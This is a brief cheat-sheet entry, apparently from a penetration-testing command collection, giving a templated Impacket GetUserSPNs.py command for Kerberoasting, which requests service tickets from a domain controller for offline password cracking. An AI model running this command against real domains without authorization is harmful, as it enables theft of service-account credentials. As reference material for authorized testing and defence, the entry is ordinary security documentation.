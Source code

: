 # Kerberos

## Find SPN that are associated with a normal user account (Kerberoast) 

```
GetUserSPNs.py -request -dc-ip <domain-controller> <domain>/<user>:'<password>'
```

= domain-controller: $DOMAIN_CONTROLLER
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN
